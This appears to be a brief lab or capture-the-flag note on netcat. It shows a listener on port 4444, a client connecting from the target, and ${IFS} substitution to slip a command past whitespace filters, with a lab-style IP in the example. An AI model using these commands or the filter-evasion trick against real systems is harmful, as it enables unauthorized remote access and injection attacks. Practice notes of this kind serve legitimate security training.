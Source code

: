 Set up a listener 

$nc -l -v -p 4444 

~set up the client payload  
$ nc -nv server IP 4444 

To take out white space inject 

${IFS} 

example 

$ nc${IFS}-nv${IFS}10.129.91.66${IFS}4444